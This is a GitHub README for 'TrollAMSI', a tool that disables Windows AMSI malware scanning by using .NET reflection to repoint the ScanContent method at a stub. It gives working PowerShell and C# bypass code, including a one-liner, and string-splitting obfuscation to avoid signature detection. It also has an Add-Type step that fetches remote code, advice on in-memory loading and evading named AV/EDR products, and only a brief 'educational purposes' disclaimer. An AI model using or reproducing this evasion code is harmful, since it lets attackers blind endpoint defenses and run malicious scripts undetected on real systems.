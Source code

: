 # TrollAMSI
![Screenshot_6](https://github.com/cybersectroll/TrollAMSI/assets/169176042/30a18a71-ed40-48ec-b5af-b95cfab56f71) \
**Note:** Every other technique in the internet patches different amsi function. We are <ins>**NOT**</ins> patching the actual function here.

Matt Graeber first introduced the technique to bypass AMSI by using reflection in 2016. The technique primarily targets field attributes. **Source:** https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#Using-Matt-Graebers-Reflection-method. Here, we bring us back to 2016 by targetting methods which I call a new technique "Reflection with method swapping" (i.e essentially monkeypatching). In our specific case, we use reflection to get a handle to the "ScanContent" method and updates it to point to a method we control. Additionally, this opens doors for other techniques such as ETW and CLM possibly(?). AMSI bypasses are usually detected at 2 stages:
1. The attempt to bypass -> both static and dynamic
2. The bypass itself -> Post bypass, the signatures left behind

**The beauty of this technique as opposed to other AMSI bypass techniques such as byte patching etc for the 2 detections mentioned above is:**
1. There is a low detection surface:
    - statically: because the code profile is so short and it is hard to apply a signature on any part of the common .NET functionality used
    - dynmically: because of the lack of hooked win32 API calls 
2. Because we are modifying JIT/IL memory which is hard for AV/EDR to monitor or has not been monitored at this point by a lot of vendors

## UPDATES
```diff
! UPDATE 31/05/2024 
! For some security products, modify method M to pass in empty argument string c.
! For CSHARP example, private static int M(string c, string s) { c = ""; return 1; }
! For POWERSHELL example, class TrollAMSI{static [int] M([string]$c, [string]$s){ $c = ""; return 1}}
```
```diff
! UPDATE 05/06/2024 
! Refer to TrollAMSIdotnet for amsi bypass for Assembly.Load()
```
```diff
! UPDATE 11/11/2024 
!  "System.Management.Automation.AmsiUtils" is being flagged now, just do a basic obfuscation of it, like the example below and it works again 
! $o = [Ref].Assembly.GetType([System.String]::Join("", "S", "y", "s", "t", "e", "m", ".", "M", "a", "n", "a", "g", "e", "m", "e", "n", "t", ".", "A", "u", "t", "o", "m", "a", "t", "i", "o", "n", ".", "A", "m", "s", "i", "U", "t", "i", "l", "s"))
```
```diff
! UPDATE 27/05/25
! if this doesnt work, you can try https://github.com/cybersectroll/TrollDisappearKey 
```

## Benefits
- No P/Invoke or win32 API calls used such as VirtualProtect hence **WAAAAAY more opsec safe**
- No amsi.dll patching or byte patching for that matter
  
## Usage 

### Raw Powershell
```
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}
$o = [Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent
$t = [TrollAMSI].GetMethods() | Where-Object Name -eq 'M'
[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]$t.MethodHandle.Value + [long]8)),0, [long]$o.MethodHandle.Value + [long]8,1)
```
### Raw Powershell One-Liner
```
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]([TrollAMSI].GetMethods() | Where-Object Name -eq 'M').MethodHandle.Value + [long]8)),0, [long]([Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent).MethodHandle.Value + [long]8,1)
```

### Add-Type
```
>$code = (iwr https://raw.githubusercontent.com/cybersectroll/TrollAMSI/main/TrollAMSI.cs).content
>Add-Type $code
>[TrollAMSI]::troll()
```
### Compiled x64
```
>c:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:library /out:TrollAMSI.dll TrollAMSI.cs /reference:c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
>[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\TrollAMSI.dll"))
>[TrollAMSI]::troll()
```

## OPSEC
- STATIC: obfuscate "AmsiUtils" and "ScanContent" maybe?
- DYNAMIC: Nothing much really. Note that Add-Type method will leave disk artifacts, whereas hosting the compiled DLL on a webserver and using Load() is completely in memory

## TESTING
- Tested on 5 AV/EDR products
- Eitherway security products pay greater emphasis to amsi.dll and the relevant winapi calls for byte patching which we do not touch
  
## Wishlist
- same technique should/could be applicable to bypass
  - ETW write
  - We can apply the same trick on CLM enforcement -> Refer to TrollCLM
  - maybe there's more?
## Credits
1. Matt Graeber original amsi bypass in 2016
2. https://github.com/calebstewart/bypass-clm


## Disclaimer
Should only be used for educational purposes!
